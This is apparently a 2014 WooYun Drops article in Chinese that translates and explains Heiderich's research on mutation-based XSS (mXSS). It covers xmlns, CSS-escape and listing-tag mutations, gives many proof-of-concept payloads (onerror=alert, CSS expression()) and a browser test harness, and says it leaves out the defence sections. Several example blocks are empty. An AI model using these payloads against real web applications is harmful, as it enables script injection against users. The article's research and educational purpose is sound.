


# mXSS 攻击的成因及常见种类

2014/02/24 11:43 | [gainover](http://drops.wooyun.org/author/gainover "由 gainover 发布")   | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章")  | 占个座先  | 捐赠作者

## 0x00 译者的话

* * *

本文原文是由国外大牛 Mario Heiderich 在 2013 年所写的一篇 paper：mXSS attacks: attacking well-secured web-applications by using innerHTML mutations. 本人觉得此类 mXSS 攻击较为隐蔽，常规的 XSS 过滤器并不能防止此类攻击。在测试 QQ 空间日志中的确存在此类问题后，认为 mXSS 在 WEB 应用中还是存在较大的潜在危害，因此，决定将此文做一个翻译。但是，一来由于水平有限，仅能依靠自己浅薄的理解来大致的翻译一下，文中图片以及代码都是在自己的理解上加以重新阐述，也许这样更加易于读者掌握。如果英文较好的同学可自行阅读英文原版。二来，我个人仅注重“攻”的一部分，本文中我认为实用性不高的部分，以及如何防御此类攻击的大幅段落，我并未进行翻译，因而有需要的读者也需要自行去了解这些部分。不论如何，希望本文能够让国内的研究者们对 mXSS 有一个基本的了解。

## 0x01 简介

* * *

不论是服务器端或客户端的 XSS 过滤器，都认定过滤后的 HTML 源代码应该与浏览器所渲染后的 HTML 代码保持一致，至少不会出现很大的出入（图 1）。然而，如果用户所提供的富文本内容通过 javascript 代码进入 innerHTML 属性后，一些意外的变化会使得这个认定不再成立：一串看似没有任何危害的 HTML 代码，将逃过 XSS 过滤器的检测，最终进入某个 DOM 节点的 innerHTML 中，浏览器的渲染引擎会将本来没有任何危害的 HTML 代码渲染成具有潜在危险的 XSS 攻击代码。随后，该段攻击代码，可能会被 JS 代码中的其它一些流程输出到 DOM 中或是其它方式被再次渲染，从而导致 XSS 的执行。 这种由于 HTML 内容进入 innerHTML 后发生意外变化（mutation，突变，来自遗传学的一个单词，大家都知道的基因突变，gene mutation），而最终导致 XSS 的攻击流程，被称为突变 XSS（mXSS, Mutation-based Cross-Site-Scripting），整个流程的示意图见图 2。从流程中不难看出，突变发生在 XSS 过滤流程之后，因此不论是服务器端还是客户端的 XSS 过滤器对这类攻击并不能进行有效的防御。



图 1\. XSS 过滤所假设的前提



图 2\. mXSS 攻击流程

将内容置于 innerHTML 这种操作，在现在的 WEB 应用代码中十分常见，根据原文作者的统计，1W 个常见的 WEB 应用中，大约有 1/3 使用了 innerHTML 属性，这将会导致潜在的 mXSS 攻击。从浏览器角度来讲，mXSS 对三大主流浏览器（IE，CHROME，FIREFOX）均有影响。表 1 列出到目前为止已知的 mXSS 种类，接下来的部分将分别对这几类进行讨论与说明。建议读者主要使用 IE8 来测试本文中的代码。具体测试代码如下：

```
<div id="testa">xx</div>
<div id="testb">xx</div>

<script>
//请自行将输入的 HTML 代码中的双引号以及 \进行转义操作
//其中： " -> \" , \ -> \\
var m="此处输入被测试的 HTML 代码"; 

//1\. 将用户输入内容放入 innerHTML
var x=document.getElementById("testa");
x.innerHTML=m;
//2\. 发生突变后，取出突变后的内容，放入 html 变量
var html=x.innerHTML;
//3\. 弹出突变后的代码
alert(html); 
//4\. 将突变后的代码输出到 DOM 中
document.getElementById("testb").innerHTML = html;

</script> 

```

  表 1\. 本文中所涉及的 mXSS 种类

| 英文 | 中文 |
| --- | --- |
| Backtick Characters breaking Attribute Delimiter Syntax | 反引号打破属性边界导致的 mXSS |
| XML Namespaces in Unknown Elements causing Structural Mutation | 未知元素中的 xmlns 属性所导致的 mXSS |
| Backslashes in CSS Escapes causing String-Boundary Violation | CSS 中反斜线转义导致的 mXSS |
| Misfit Characters in Entity Representation breaking CSS Strings | CSS 中双引号实体或转义导致的 mXSS |
| CSS Escapes in Property Names violating entire HTML Structure | CSS 属性名中的转义所导致的 mXSS |
| Entity-Mutation in non-HTML Documents | 非 HTML 文档中的实体突变 |
| Entity-Mutation in non-HTML context of HTML documents | HTML 文档中的非 HTML 上下文的实体突变 |

## 0x02 反引号打破属性边界导致的 mXSS

* * *

该类型是最早被发现并利用的一类 mXSS，于 2007 年被提出，随后被有效的修复，所以当前绝大多数用户的浏览器不会被此 mXSS 所影响。当时的利用代码如下：

```
输入形式：


突变形式：

 

可以看到，突变后的形式变成了有效的 XSS 攻击代码。 

```

## 0x03 未知元素中的 xmlns 属性所导致的 mXSS

* * *

一些浏览器不支持 HTML5 的标记，例如 IE8，会将 article，aside，menu 等当作是未知的 HTML 标签。对于开发者来说，虽然是未知标签，但是我们还是可以通过设置这些标签的 xmlns 属性，让浏览器知道这些未知的标签是的 XML 命名空间是什么。一般来说，在 HTML 中，指定这些未知标签的 xmlns 属性并没有任何意义，也不会改变它们在浏览器中的外观之流的东西。但是，这些被指定了 xmlns 属性的标签进入 innerHTML 后，被浏览器所渲染，就会发生一些变化，而这个变化被十分猥琐的用于了 XSS。首先我们来看正常情况下设置 xmlns 的情况。

```
输入形式：

<pkav >123

突变形式：

<wooyun:pkav >123</wooyun:pkav>

```

接着猥琐流很快就会想到下面的代码，可以看出，成功变成了含有 onerror=alert(1) 的 img 标签。

```
输入形式：

<pkav >123

突变形式：

123</img src=1 onerror=alert(1)//:pkav>

```

扩展：细心的同学也许会注意到，我们的代码中，并未闭合 <pkav>标签。那么一个经常碰到的场景是：XSS 过滤器会在解析 HTML 代码时，自动补全未闭合的标签。这样一来，就会出现下面的场景：</pkav>

```
输入形式：

<pkav >123

过滤后形式：

<pkav >123</pkav>

突变后形式：

<?XML:NAMESPACE PREFIX = [default] urn:wooyun NS = "urn:wooyun" /><pkav >123</pkav>

```

聪明的我们应该不难想到应对办法，这应该也就是[`html5sec.org/?xmlns#97`](http://html5sec.org/?xmlns#97)中所描述问题的发现过程（由 Silin 于 2011 年发现）。

```
输入形式：

<pkav >123</pkav>

突变后形式：

<?XML:NAMESPACE PREFIX = [default] ><iframe onload=alert(1) NS = "><iframe onload=alert(1)" /><pkav >123</pkav>

```

## 0x04 CSS 中反斜线转义导致的 mXSS

* * *

在 CSS 中，允许用\来对字符进行转义，例如：`property: 'v\61 lue'` 表示 `property:'value'`，其中 61 是字母 a 的 ascii 码（16 进制）。\后也可以接 unicode，例如：\20AC 表示 € 。正常情况下，这种转义不会有问题。但是碰上 innerHTML 后，一些奇妙的事情就发生了。看以下代码。

```
输入形式：

<p style="font-family:'ar\27 \3bx\3a expression\28xss\28\29\29\3bial';"></p>

突变形式：

<P style="FONT-FAMILY: 'ar';x:expression(xss());ial'"></P>

```

可以看到，突变后的形式中，原输入的 font-family 的属性值中的所有转义形式均被解码回它原有的形式。其中\27 被解码为单引号，提前闭合掉了 FONT-FAMILY 属性，接着插入了我们自定义的 x 属性，利用 expression 来执行 Javascript 代码。如果结合我们先前已经有所了解的 CSS 中的一些 XSS 技巧，将会让情况看起来变得更加糟糕。例如以下代码，看起来，我们可以把 expression 变得乱七八糟。

```
输入形式：

<p style="font-family:'ar&#x5c;27 \3bx\3a ex\5cpre\2f**\2fssion\28 xss\28 1\29\29\3bial';"></p>

突变形式：

<P style="FONT-FAMILY: 'ar';x:ex\pre/**/ssion(xss(1));ial'"></P>

```

## 0x05 CSS 中双引号实体或转义导致的 mXSS

* * *

接着上一部分，依然是 CSS 中所存在的问题，既然反斜线转义会被解码为它原本的形式，那么会出现下面这样一种情况。

```
输入形式：

<p style="font-family:'aaaa\22\3e\3cimg onerror ….';"></p>

预期的突变形式：

<p style="font-family:'aaaa"></p>  

```

这样一来，不就可以插入任意标签了么？想法很好。但实际上如何呢？

```
实际的突变形式：

<P style="FONT-FAMILY: 'aaaa'></P>

```

并非我们想象的那样，而是我们的\22 竟然变成了单引号，按照原文作者的说法，我们只能对这种奇怪的结果所产生的原因做出推测：\22 先被解码为 "，但考虑到双引号会闭合掉 style 属性，所以浏览器渲染引擎将"进一步转变为了'，以避免这种情况的发生。当然，这也意味这，除了 \22，\0022 之外，HTML 实体如：`&quot; &#x22; &#34;` 等双引号的表示形式均可导致这类问题。

## 0x06 CSS 属性名中的转义所导致的 mXSS

* * *

前 2 部分都讲到的 CSS 属性值中的情况，如果 CSS 属性名中出现了反斜线转义，又会如何？见下面代码。

```
输入形式：


突变形式：

 

```

可以看到，我们用转义的内容，嵌入到 font-family 的属性名中，突变后，\22 被解码回双引号，并且闭合掉了 style 属性，从而我们可以通过 onerror 事件执行 javascript 代码，需要注意的是，=号，括号等也需要被写为转义形式。我们亦可在\22 后加上\3e 来闭合掉 img 标签，并在此之后插入自己的 HTML 标签。

有时，我们还会碰到 style 属性用单引号做边界符的情况。对于这种情况，style 的边界符会被渲染回双引号，我们的\22 依然可以发挥它的作用，例如：

```
输入形式：

<p style='fo\27\22o:bar'>

突变形式:

<p style="fo'"o: bar"></p>

```

## 0x07 Listing 标签导致的 mXSS

* * *

此外，在本文原作者的 PPT 中，还提到了一个`<listing>`标签导致的 mXSS，大家理解上面的例子后，本例也较为简单。

```
输入形式：
<listing>&lt;img src=1 onerror=alert(1) &gt;</listing>

突变形式：

<LISTING></LISTING>

```

在 [WooYun: QQ 空间某功能缺陷导致日志存储型 XSS - 15](http://www.wooyun.org/bugs/wooyun-2014-051536) 中，笔者就使用了该标签来触发了 mXSS（IE8 及 IE9 下目前均有效），读者可以参考该实际案例进一步了解 mXSS 的攻击及挖掘流程。

## 0x08 易于被 mXSS 攻击的 Javascript 代码

* * *

上面已经讲解了不同种类的 mXSS，那么什么样的代码易于遭受 mXSS 攻击呢？根据图 2 中的 mXSS 流程，JS 代码中，至少要将用户提供的内容放入 DOM 中两次，才会触发 XSS 攻击。原作者给出了以下代码场景：

```
1) a.innerHTML = b.innerHTML ;
2) a.innerHTML += 'additional content';
3) a.insertAdjacentHTML ( 'beforebegin' , b.innerHTML ) ;
4) document.write (b.innerHTML) ; 
```

其中，1) 与 4) 里的 b.innerHTML 含有突变后的内容，被通过 innerHTML 或者是 document.write 的方式再次输出到 DOM 中，从而触发 mXSS。 3)使用了 insertAdjacentHTML 函数（算是 innerHTML 的加强版，具体用法可自行了解）来将含有突变内容的 b.innerHTML 加入 a 中，从而导致 mXSS。而 2) 则较为隐蔽，a.innerHTML 中存在突变后的内容，当我们使用+=来向 a.innerHTML 中追加内容时，a 会被重新渲染，从而触发 mXSS。

## 0x09 总结

* * *

原文中还有两类：非 HTML 文档中的实体突变以及 HTML 文档中的非 HTML 上下文的实体突变，本人觉得被实际应用的场景并不丰满，就不进行阐述了，有兴趣的研究者可以自行了解。 希望看过本文后，可以为大家提供一些思路性的东西。 如果你有此方面的意外发现，一定不要忘了与我分享：gainover@qq.com（欢迎邮箱 xss 来稿）。

## 0x10 参考文献

* * *

1. Heiderich, M., Schwenk, J., Frosch, T., Magazinius, J., & Yang, E. Z. (2013, November). mXSS attacks: attacking well-secured web-applications by using innerHTML mutations. In *Proceedings of the 2013 ACM SIGSAC conference on Computer & communications security* (pp. 777-788). ACM.

2. Heiderich, M. The innerHTML Apocalypse. [`www.slideshare.net/x00mario/the-innerhtml-apocalypse`](http://www.slideshare.net/x00mario/the-innerhtml-apocalypse). Security Research / Penetration Testing at Cure53 on Apr 25, 2013

版权声明：未经授权禁止转载 [gainover](http://drops.wooyun.org/author/gainover "由 gainover 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Browser Security-超文本标记语言（HTML）](http://drops.wooyun.org/tips/147)
*   [Web 前端攻防](http://drops.wooyun.org/tips/2686)
*   [逆向基础（四）](http://drops.wooyun.org/tips/2046)
*   [SSLStrip 的未来 —— HTTPS 前端劫持](http://drops.wooyun.org/tips/3199)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [XSS 与字符编码的那些事儿 —科普文](http://drops.wooyun.org/tips/689)